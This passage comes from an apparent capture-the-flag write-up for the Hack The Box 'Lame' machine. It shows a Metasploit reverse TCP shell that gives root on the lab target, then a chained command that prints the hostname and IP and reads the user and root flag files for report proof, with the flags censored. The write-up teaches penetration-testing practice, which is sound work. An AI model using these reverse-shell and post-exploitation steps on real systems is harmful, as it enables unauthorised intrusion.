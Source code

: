 ```

[*] Started reverse TCP handler on 10.10.14.64:4444 
[*] Command shell session 1 opened (10.10.14.64:4444 -> 10.10.10.3:41098) at 2024-07-24 18:14:30 -0400

whoami
root
```
![initial metasploit shell](https://github.com/Striving-to-learn/CyberSecurity-writeups/blob/main/imagesrepo/lamehtbiniital%20shellimagepicture2.png)
after searching through the home and root directories we find some flags
namely the user flag at /home/makis/user.txt and  the root flag at /root/root.txt
also based on good practice you should always prove for report writing that you got access to the machine by running a whoami command to show the user as well show the hostname, IP address and then cat the flag. 
at least thats how its taught for the oscp reporting requirements.
putting that all together will look like `whoami && hostname && ip a && cat /home/makis/user.txt && cat /root/root.txt`
lets run it and show a screenshot. ive purposely censored the actual flags
```
whoami && hostname && ip a && cat /home/makis/user.txt && cat /root/root.txt
root
lame
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b0:79:a0 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.3/24 brd 10.10.10.255 scope global eth0
    inet6 dead:beef::250:56ff:feb0:79a0/64 scope global dynamic 
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb0:79a0/64 scope link 
       valid_lft forever preferred_lft forever
1c13censoreduserflag 
2af717censoredrootflag
```
![screenshot of the censored flags](https://github.com/Striving-to-learn/CyberSecurity-writeups/blob/main/imagesrepo/lamehtbrootflagscensoredpicture3.png)






